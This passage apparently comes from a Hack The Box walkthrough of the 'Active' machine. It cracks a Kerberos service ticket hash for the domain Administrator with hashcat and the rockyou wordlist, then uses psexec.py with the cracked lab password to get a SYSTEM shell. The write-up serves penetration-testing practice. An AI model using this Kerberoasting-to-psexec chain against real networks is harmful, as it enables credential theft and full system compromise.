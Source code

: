 Nice! Try to crack the hash of the `Administrator@ACTIVE.HTB` CIFS/SMB account hash:

- According to https://hashcat.net/wiki/doku.php?id=example_hashes, the hashcat module is 13100

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 13100 -a 0 --quiet --force --potfile-disable active.hash rockyou.txt 
```

![kerb2](./active/kerb2.png)

So the password for `Administrator@ACTIVE.HTB` is for CIFS/SMB. Try it out over SMB:

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

And this provides a SYSTEM shell:

![root1](./active/root1.png)


